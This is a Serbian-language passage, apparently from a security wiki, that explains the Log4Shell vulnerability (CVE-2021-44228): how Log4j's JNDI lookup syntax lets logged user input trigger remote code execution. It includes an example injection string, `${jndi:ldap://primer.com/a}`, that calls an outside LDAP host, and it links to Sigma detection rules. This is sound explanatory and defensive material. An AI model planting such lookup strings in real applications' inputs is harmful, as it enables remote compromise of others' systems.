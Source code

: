 ![](<../../.gitbook/assets/image (660) (1) (1).png>)

## Log4Shell Ranjivost

Ranjivost je uvedena u Log4j jer podržava [**specijalnu sintaksu**](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) u obliku `${prefix:name}` gde je `prefix` jedan od različitih [**Lookups**](https://logging.apache.org/log4j/2.x/manual/lookups.html) gde bi `name` trebalo da bude evaluiran. Na primer, `${java:version}` je trenutna pokrenuta verzija Jave.

[**LOG4J2-313**](https://issues.apache.org/jira/browse/LOG4J2-313) je uveo funkciju `jndi` Lookup. Ova funkcija omogućava dobijanje promenljivih putem JNDI-ja. Tipično, ključ je automatski prefiksovan sa `java:comp/env/`. Međutim, ako sam ključ sadrži **":"**, ovaj podrazumevani prefiks se ne primenjuje.

Sa **: prisutnim** u ključu, kao u `${jndi:ldap://primer.com/a}` nema prefiksa i **LDAP server je upitan za objekat**. I ovi Lookups se mogu koristiti kako u konfiguraciji Log4j tako i prilikom logovanja linija.

Stoga, jedino što je potrebno za dobijanje RCE je **ranjiva verzija Log4j koja obrađuje informacije koje kontroliše korisnik**. I pošto je ovo biblioteka široko korišćena od strane Java aplikacija za logovanje informacija (uključujući i aplikacije koje su dostupne na internetu) bilo je veoma uobičajeno imati log4j logovanje na primer HTTP zaglavlja primljena kao što je User-Agent. Međutim, log4j se **ne koristi samo za logovanje HTTP informacija već bilo kakav unos** i podatke koje je programer naznačio.

## Pregled CVE-ova povezanih sa Log4Shell-om

### [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) **\[Kritično]**

Ova ranjivost je kritična **nesigurna deserializacijska greška** u komponenti `log4j-core`, koja utiče na verzije od 2.0-beta9 do 2.14.1. Omogućava **udaljeno izvršavanje koda (RCE)**, omogućavajući napadačima preuzimanje sistema. Problem je prijavio Chen Zhaojun iz Alibaba Cloud Security tima i utiče na različite Apache okvire. Početni popravak u verziji 2.15.0 bio je nepotpun. Pravila Sigma za odbranu su dostupna ([Pravilo 1](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j\_fields.yml), [Pravilo 2](https://github.com/SigmaHQ/sigma/blob/master/rules/web/web\_cve\_2021\_44228\_log4j.yml)).
